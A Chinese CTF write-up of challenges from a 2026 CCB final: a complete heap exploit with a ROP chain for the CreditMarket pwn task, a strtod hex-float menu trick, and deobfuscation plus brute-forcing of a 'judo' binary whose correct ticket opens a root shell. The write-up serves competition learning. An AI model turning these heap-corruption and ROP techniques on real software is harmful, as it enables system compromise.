









# 2026 ccb决赛部分题目复现

# pwn-CreditMarket

‍

只能一次 free, 利用 House of Orange 泄露 libc

然后修改chunk size，再 free 控制tcachebins 结构体

‍

> 一开始没想到用Orange 去做泄露，卡了好久，后面想到 Orange，就简单了

‍

## Orange



add 一个 大的堆块 ，然后通过 edit 堆溢出填充再show 既可 泄露 libc



‍

## overlapping_chunks





然后 free, 此时会生成 `tcache_perthread_struct` （0x301）



然后下一次申请 0x3f8 就可以 控制 `tcache_perthread_struct` 了，后面通过edit就可以实现任意地址申请

‍

```python
from pwn import *

s    = lambda   x : io.send(x)
sl   = lambda   x : io.sendline(x)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = '10.11.253.19 26798'.replace(' ',':')
binary = './shop'

context(arch='amd64', log_level = 'debug',terminal='tmux splitw -h -l 170'.split(' '))
#io = process(binary)
#cmd = 'nc 10.11.253.9 21379'
cmd = '10.11.253.19 26798'
#io = process(cmd.split(' '))
io = remote(*attack.split(':'))
gs = '''
brva 0x019F1
'''

def add(idx,size):
    ru('> ')
    sl('1')
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl(str(size))
def edit(idx,text):
    ru('> ')
    sl('2')
    ru(': ')
    sl(str(idx))
    ru(': ')
    s(text)

def show(idx):
    ru('> ')
    sl('3')
    ru(': ')
    sl(str(idx))

def rm(idx):
    ru('> ')
    sl('4')
    ru(': ')
    sl(str(idx))

size = 0x1000-0x10
add(0,size)
pay = b'\x00' * (size)
pay += p64(0) + p64(0x1001)
edit(0,pay)
add(1,0xFFE)

pay = b'A' * (size + 0x10)
edit(0,pay)

show(0)
ru(pay)
main_arena = uu64(r(6))
libc_base = main_arena - 0x212ac8


pay = b'A' * (size + 8) + p64(0xfe1)
edit(0,pay)

lss('main_arena')
lss('libc_base')

add(3, 0xf8)
add(4, 0xf8)
pay = b'A'  * 0xF8 + p64(0x401)
edit(3, pay)
rm(4)

target = libc_base + 0x213680

add(5,0x3f0)

pay = flat({
    0x100+0x00: 0xf,
    0x100+0x98: target,
},filler=b'\x00')

edit(5,pay)
add(6,0x18)
pay = b'A' * 0x20
edit(6,pay)
show(6)
ru(pay)
stack = uu64(r(6)) >>4<<4
lss('stack')

pay = flat({
    0x100+0x018: 0xf001000100010,
    0x100+0x110: stack - 0x210 - 0x110,
},filler=b'\x00')

edit(5,pay)

add(7,0x100)

libc = ELF('./libc.so.6')
libc.address = libc_base
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
m = 1
rdx = libc_base + 0x00000000000e87bd # pop rdx ; xor eax, eax ; ret
##➜  CreditMarket ROPgadget --binary ./libc.so.6  --only 'xor|pop|ret' | grep 'eax' | grep 'rdx' 
#	# rdi = libc_base + 0xb503c;m=5
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = stack + 0x210 # ret to addr
buf = stack - 0x158
orw_rop  =p64(rdx) + p64(0)*m + p64(rax) + p64(2) + p64(rdi) + p64(buf) + p64(rsi) + p64(0) +  p64(syscall)
orw_rop +=p64(rdx) + p64(0x100)*m +  p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(libc.sym['read'])
orw_rop +=p64(rdx) + p64(0x100)*m +  p64(rdi) + p64(1) + p64(rsi) + p64(buf) + p64(libc.sym['write'])
orw_rop += b'./flag.txt'.ljust(0x10,b'\x00')


target_stack = stack - 0x210

#gdb.attach(io,gdbscript=gs)
pay =  p64(rdi) + p64(0) + p64(rsi) + p64(target_stack) + p64(rdx) + p64(0x100)*m + p64(libc.sym['read'])
edit(7,b'A' * 0xF8 + pay)
pause()
sl(orw_rop)


itr()

```

‍

‍

# pwn-HeroEditor

比赛的时候卡在菜单上了，

man strtod 里关键句就是这个：

- 支持普通十进制数
- 支持十六进制浮点数：0x 或 0X 开头
- 十六进制浮点的指数是二进制指数，用 p 或 P
- 0X8p-3 等价于 8 \* 2\^-3 \= 1
- 大小写都接受，所以 0X... 合法

所以这题菜单卡点可以这样绕：

```python
p.sendlineafter(b'> ', b'0X8p-3')   # 1
p.sendlineafter(b'> ', b'0X8p-2')   # 2
p.sendlineafter(b'> ', b'0Xcp-2')   # 3


>>> 2**(-3)
0.125
>>> 8*2**(-3)
1.0
```

‍

```c
def fhex(n: int) -> bytes:
    """
    n in [1, 0xe8]
    example: fhex(1) -> b'0X8p-3'
    """
    if not (1 <= n <= 0xe8):
        raise ValueError("n must be in [1, 0xe8]")

    # 保持你要的例子
    if n == 1:
        return b"0X8p-3"

    cands = []
    for exp in range(-8, 9):
        if exp >= 0:
            if n % (1 << exp):
                continue
            mant = n >> exp
        else:
            mant = n << (-exp)

        if mant == n and exp == 0:
            continue

        s = f"0X{mant:X}p{exp}".encode()
        if int(float.fromhex(s.decode())) == n:
            cands.append(s)

    if not cands:
        raise RuntimeError("no representation found")

    return min(cands, key=len)

```

‍

‍

# 内网提权逆向-judo-古法

## 静态分析

 `s3cRet_t1CkET_!!`是个假的，实际上并不会执行到这里



这个 `call r8` 才是真正比较的入口



代码在.data 段 程序会先修改权限然后解密前半部分再执行，之后就是边执行边解密后面的代码



直接在`0x1520`断点，此时.data段代码处于都解密的状态

## 去混淆

把混淆的代码提取出来

```bash
dump binary memory r8_asm 0x55555555e000 0x555555561a46 # ;leave；ret
```

猜测 jmp 跳转之后的那一条指令才是真正的逻辑，其他的为混淆代码，写个脚本提取一下



```py
from pwn import *

context.arch='amd64'

asm_data = open('./r8_asm','rb').read()

new_asm =b''
s = b'\xeb\x03' # jmp
for i in range(len(asm_data)):
    td = asm_data[i:i+2]
    if td == s:
        s1 = asm_data[i+5:]
        s2 = s1[:s1.find(b'\x51\x41')] # push rcx;push r14
        new_asm += s2
print(disasm(new_asm))

open('./r8_asm_dec','wb').write(new_asm)
```

用 IDA 打开`r8_asm_dec` 再稍加处理 可以得到 去混淆之后的比较函数代码

```x86asm
__int64 __fastcall sub_0(unsigned __int8 *in_ticket, unsigned int *a2, unsigned __int8 *a3, _BYTE *enc_ticket)
{
  unsigned int v5; // [rsp+D0h] [rbp-30h]
  unsigned int v6; // [rsp+D4h] [rbp-2Ch]
  unsigned int v7; // [rsp+D8h] [rbp-28h]
  unsigned int v8; // [rsp+DCh] [rbp-24h]

  v5 = a2[in_ticket[2] + 0x200] ^ a2[in_ticket[1] + 0x100] ^ a2[*in_ticket] ^ a2[in_ticket[3] + 0x300];
  v6 = a2[in_ticket[6] + 0x600] ^ a2[in_ticket[5] + 0x500] ^ a2[in_ticket[4] + 0x400] ^ a2[in_ticket[7] + 0x700];
  v7 = a2[in_ticket[10] + 0xA00] ^ a2[in_ticket[9] + 0x900] ^ a2[in_ticket[8] + 0x800] ^ a2[in_ticket[11] + 0xB00];
  v8 = a2[in_ticket[14] + 0xE00] ^ a2[in_ticket[13] + 0xD00] ^ a2[in_ticket[12] + 0xC00] ^ a2[in_ticket[15] + 0xF00];
  return (a3[HIBYTE(v7) + 0xF00] == enc_ticket[15])
       & (unsigned __int8)(a3[HIBYTE(v6) + 0xB00] == enc_ticket[11]
                        && a3[HIBYTE(v5) + 0x700] == enc_ticket[7]
                        && a3[HIBYTE(v8) + 0x300] == enc_ticket[3]
                        && a3[BYTE2(v6) + 0xE00] == enc_ticket[14]
                        && a3[BYTE2(v5) + 0xA00] == enc_ticket[10]
                        && a3[BYTE2(v8) + 0x600] == enc_ticket[6]
                        && a3[BYTE2(v7) + 0x200] == enc_ticket[2]
                        && a3[BYTE1(v5) + 0xD00] == enc_ticket[13]
                        && a3[BYTE1(v8) + 0x900] == enc_ticket[9]
                        && a3[BYTE1(v7) + 0x500] == enc_ticket[5]
                        && a3[BYTE1(v6) + 0x100] == enc_ticket[1]
                        && a3[(unsigned __int8)v8 + 0xC00] == enc_ticket[12]
                        && a3[(unsigned __int8)v7 + 0x800] == enc_ticket[8]
                        && a3[(unsigned __int8)v6 + 0x400] == enc_ticket[4]
                        && a3[(unsigned __int8)v5] == *enc_ticket);
}
```

## 提取固定数据

提取a2 a3,和 enc_ticket 数据

```py
pwndbg> regs 
*RAX  0x7fffffffe010 ◂— 'AAAAAAAAAAAAAAAA'
*RBX  0x7fffffffe188 —▸ 0x7fffffffe46a ◂— '/mnt/hgfs/Downloads/26ccb/nw/test_judo/judo'
*RCX  0x55555555b020 ◂— 0x405ee811581bc8a8
*RDX  0x55555555a020 ◂— 0x9b9a99989f9e9d9c
*RDI  0x7fffffffe010 ◂— 'AAAAAAAAAAAAAAAA'
*RSI  0x555555556020 ◂— 0xdabfbf6531e6e6d7
*R8   0x55555555e000 ◂— endbr64 /* 0xe5894855fa1e0ff3 */
*R9   1
*R10  0x555555563290 ◂— 0
*R11  0x216
*R12  1
 R13  0
*R14  0x55555555cd60 —▸ 0x555555555280 ◂— endbr64
*R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x7fffffffe060 —▸ 0x7fffffffe100 —▸ 0x7fffffffe160 ◂— 0
*RSP  0x7fffffffdfe0 —▸ 0x7fffffffe188 —▸ 0x7fffffffe46a ◂— '/mnt/hgfs/Downloads/26ccb/nw/test_judo/judo'
*RIP  0x55555555551d ◂— call r8
*EFLAGS 0x246 [ cf PF af ZF sf IF df of ac ]
pwndbg> pd
b► 0x55555555551d                         call   r8


dump binary memory a2 0x555555556020 (0x555555556020+0x1000*4)
dump binary memory a3 0x55555555a020 (0x55555555a020+0x1000)

```

## 解题代码

根据比较函数的校验逻辑，16 字节输入可以拆成 4 组互不影响的 4 字节块，逐组爆破即可。

> 这题本身并不是能力之外的问题，更多是心理压力和身体状态影响了发挥。比赛当天头晕头痛，虽然一直觉得题目应该不难，但没有静下心来手动分析，而是过度依赖本地 4B AI。AI 没写出来后，我也没有继续尝试，最后遗憾错过。这次最大的教训是，AI 可以作为辅助工具，但不能替代自己的判断。尤其是这种结构并不复杂的题，如果直觉上觉得“应该能做”，就应该及时停下来，亲自做一遍依赖分析和复杂度评估，而不是把时间完全交给 AI 反复尝试。

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>

#include "defs.h"
//int cmp_data(unsigned __int8 *in_ticket, unsigned int *a2, unsigned __int8 *a3, _BYTE *enc_ticket)
//
unsigned int a2[0x4000] = {0};
unsigned __int8 a3[0x1000] = {0};
_BYTE enc_ticket[0x10] = {0};


int cmp_data(unsigned __int8 *in_ticket,int n)
{
  unsigned int v5; // [rsp+D0h] [rbp-30h]
  unsigned int v6; // [rsp+D4h] [rbp-2Ch]
  unsigned int v7; // [rsp+D8h] [rbp-28h]
  unsigned int v8; // [rsp+DCh] [rbp-24h]

  v5 = a2[in_ticket[2] + 0x200] ^ a2[in_ticket[1] + 0x100] ^ a2[*in_ticket] ^ a2[in_ticket[3] + 0x300];
  v6 = a2[in_ticket[6] + 0x600] ^ a2[in_ticket[5] + 0x500] ^ a2[in_ticket[4] + 0x400] ^ a2[in_ticket[7] + 0x700];
  v7 = a2[in_ticket[10] + 0xA00] ^ a2[in_ticket[9] + 0x900] ^ a2[in_ticket[8] + 0x800] ^ a2[in_ticket[11] + 0xB00];
  v8 = a2[in_ticket[14] + 0xE00] ^ a2[in_ticket[13] + 0xD00] ^ a2[in_ticket[12] + 0xC00] ^ a2[in_ticket[15] + 0xF00];
  //return (a3[HIBYTE(v7) + 0xF00] == enc_ticket[15])
  //     & (unsigned __int8)(a3[HIBYTE(v6) + 0xB00] == enc_ticket[11]
  //                      && a3[HIBYTE(v5) + 0x700] == enc_ticket[7]
  //                      && a3[HIBYTE(v8) + 0x300] == enc_ticket[3]
  //                      && a3[BYTE2(v6) + 0xE00] == enc_ticket[14]
  //                      && a3[BYTE2(v5) + 0xA00] == enc_ticket[10]
  //                      && a3[BYTE2(v8) + 0x600] == enc_ticket[6]
  //                      && a3[BYTE2(v7) + 0x200] == enc_ticket[2]
  //                      && a3[BYTE1(v5) + 0xD00] == enc_ticket[13]
  //                      && a3[BYTE1(v8) + 0x900] == enc_ticket[9]
  //                      && a3[BYTE1(v7) + 0x500] == enc_ticket[5]
  //                      && a3[BYTE1(v6) + 0x100] == enc_ticket[1]
  //                      && a3[(unsigned __int8)v8 + 0xC00] == enc_ticket[12]
  //                      && a3[(unsigned __int8)v7 + 0x800] == enc_ticket[8]
  //                      && a3[(unsigned __int8)v6 + 0x400] == enc_ticket[4]
  //                      && a3[(unsigned __int8)v5] == *enc_ticket);
  //
  //
    switch(n){
        case 0:
            if(a3[(unsigned __int8)v5] == *enc_ticket
            && a3[BYTE2(v5) + 0xA00] == enc_ticket[10]
            && a3[HIBYTE(v5) + 0x700] == enc_ticket[7]
            && a3[BYTE1(v5) + 0xD00] == enc_ticket[13])
                return 1;
            break;
        case 1:
            if(a3[HIBYTE(v6) + 0xB00] == enc_ticket[11]
            && a3[(unsigned __int8)v6 + 0x400] == enc_ticket[4]
            && a3[BYTE1(v6) + 0x100] == enc_ticket[1]
            && a3[BYTE2(v6) + 0xE00] == enc_ticket[14])
                return 1;
            break;
        case 2:
            if(a3[HIBYTE(v7) + 0xF00] == enc_ticket[15]
            && a3[(unsigned __int8)v7 + 0x800] == enc_ticket[8]
            && a3[BYTE1(v7) + 0x500] == enc_ticket[5]
            && a3[BYTE2(v7) + 0x200] == enc_ticket[2])
                return 1;
            break;
        case 3:
            if(a3[BYTE2(v8) + 0x600] == enc_ticket[6]
            && a3[BYTE1(v8) + 0x900] == enc_ticket[9]
            && a3[HIBYTE(v8) + 0x300] == enc_ticket[3]
            && a3[(unsigned __int8)v8 + 0xC00] == enc_ticket[12])
                return 1;
            break;
        default:
            return 0;

    }
    return 0;

}

void of(char *fname,char *out,int size){
    int fd = open(fname,0);
    read(fd, out, size);
    close(fd);
}


int main(){
    of("./a2",(char*)&a2,0x4000);
    of("./a3",(char*)&a3,0x1000);
    of("./enc_ticket",(char*)&enc_ticket,0x10);
    unsigned buf[4] = {0};
    int n =0;
    for(size_t i=0x20202020;i<0x7f7f7f7f;i++){
        buf[n] = i;
        if (cmp_data((char*)&buf,n)){
            puts((char*)&buf);
            n++;
            if(n==4) exit(0);
            i=0x20202020;
        }
    }

    return 0;
}

```

‍

```bash
➜  test_judo time ./a.out
Dug&
Dug&?MUb
Dug&?MUb$~y=
Dug&?MUb$~y=b5cu
./a.out  31.48s user 0.14s system 99% cpu 31.662 total
➜  test_judo ./judo 
Internal Emergency Access Portal
Please enter the diagnostic ticket: Dug&?MUb$~y=b5cu
root@IMI25PWN:/mnt/hgfs/Downloads/26ccb/nw/test_judo#
```

‍

‍

# 内网提权逆向-judo-AI

‍

## 题目信息

题目给了一个 64 位 Linux ELF，运行后要求输入 diagnostic ticket：

```text
Internal Emergency Access Portal
Please enter the diagnostic ticket:
```

输入正确字符串后，程序会执行 `/bin/bash` 拿到 shell。

最终 ticket：

```text
Dug&?MUb$~y=b5cu
```

## 基础信息

先查看文件类型和保护：

```bash
$ file judo
judo: ELF 64-bit LSB pie executable, x86-64, dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, stripped

$ checksec --file=./judo
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
```

程序是 stripped PIE，保护基本全开。但本题不是传统栈溢出，而是逆向校验逻辑。

​`strings` 可以看到一些敏感函数和可疑字符串：

```text
fgets
strcmp
mprotect
execle
clearenv
setuid
setgid
bash
/bin/bash
s3cRet_t1CkET_!!
```

这里的 `s3cRet_t1CkET_!!` 看起来像答案，但实际上是诱饵。

## 主函数逻辑

反汇编关键位置：

```armasm
13fc: call   fgets
1438: cmp    QWORD PTR [rbp-0x68],0x10
143d: je     1449
143f: mov    edi,0x1
1444: call   _exit

1449: call   144e
144e: add    QWORD PTR [rsp],0x2a
1453: ret

1454: lea    rax,[rbp-0x50]
1458: lea    rdx,[rip+0x5c38]   ; "s3cRet_t1CkET_!!"
1465: call   strcmp
146c: jne    14a4
1473: call   shell

1478: lea    rax,[rip+0x8b81]   ; .data + 0x1000
1499: call   mprotect
14c1: loop decrypt .data code with xor 0x37
151d: call   r8                 ; call decrypted function
1523: cmp    DWORD PTR [rbp-0x6c],0x1
1527: jne    153a
152e: call   shell
```

输入处理流程：

1. ​`fgets(buf, 0x40, stdin)` 读取输入。
2. ​`strcspn(buf, "\n")` 找换行并截断。
3. 要求输入长度必须是 `0x10`，也就是 16 字节。
4. 程序没有直接走下面的 `strcmp`，而是用了一个花指令。

关键花指令：

```armasm
1449: call 144e
144e: add  QWORD PTR [rsp], 0x2a
1453: ret
```

​`call 144e`​ 会把返回地址 `0x144e`​ 压栈。随后 `add [rsp], 0x2a` 把返回地址改成：

```text
0x144e + 0x2a = 0x1478
```

所以 `ret`​ 后会直接跳到 `0x1478`​，跳过 `0x1454`​ 到 `0x1473`​ 之间的 `strcmp("s3cRet_t1CkET_!!")`​ 和第一次 `execle`。

因此 `s3cRet_t1CkET_!!` 是假的答案。

## 成功函数

​`0x12c9` 附近是拿 shell 的函数：

```x86asm
12e4: mov    edi,0
12e9: call   setuid
12ee: mov    edi,0
12f3: call   setgid
130c: lea    rax,[rip+0x5d21]   ; "bash"
1316: lea    rax,[rip+0x5d1c]   ; "/bin/bash"
1325: call   execle
```

也就是：

```c
setuid(0);
setgid(0);
execle("/bin/bash", "bash", NULL, envp);
```

真正目标是让动态校验函数返回 `1`，主程序就会调用这个 shell 函数。

## 自修改代码

跳到 `0x1478`​ 后，程序取 `.data + 0x1000` 地址，先把它所在区域改成 RWX：

```x86asm
1478: lea    rax,[rip+0x8b81]   ; runtime address of .data+0x1000
1483: mov    eax,0x4000
148e: mov    edx,0x7            ; PROT_READ | PROT_WRITE | PROT_EXEC
1499: call   mprotect
```

然后对 0x4000 字节做一次 XOR 解密：

```x86asm
14c1: movzx  eax,BYTE PTR [rax+rdx]
14cf: xor    eax,0x37
14de: mov    BYTE PTR [rax+rdx],cl
14e1: add    DWORD PTR [rbp-0x70],0x1
14ed: jb     14c1
```

解密后将 `.data + 0x1000` 当作函数调用：

```asm
14ef: lea    rax,[rip+0x8b0a]   ; decrypted function
151d: call   r8
```

函数参数如下：

```asm
rdi = input_buf
rsi = 0x2020
rdx = 0x6020
rcx = 0x7020
```

也就是说，动态函数会使用三个表：

```text
0x2020: 大表
0x6020: 256 字节置换表
0x7020: 16 字节目标数据，以及后面的字符串
```

其中 `0x7020` 的前 16 字节是：

```text
a8 c8 1b 58 11 e8 5e 40 57 e3 b0 3d 75 5d 7c ac
```

## 动态函数特征

​`.data + 0x1000` 解密后并不是直接干净的汇编。它内部继续存在大量自修改和花指令：

```asm
push rcx
push r14
pushf
lea  r14,[rip+0x12]
mov  ecx,0x25
add  BYTE PTR [r14], imm8
inc  r14
loop ...
popf
pop  r14
pop  rcx
```

这种结构会在运行过程中把后续指令继续加常数解密。直接静态反汇编会出现很多假指令、坏指令和错误控制流。

更稳的办法是模拟真实执行，而不是硬静态还原。

## Unicorn 模拟

使用 Unicorn 直接模拟 `.data + 0x1000` 的动态函数。

模拟思路：

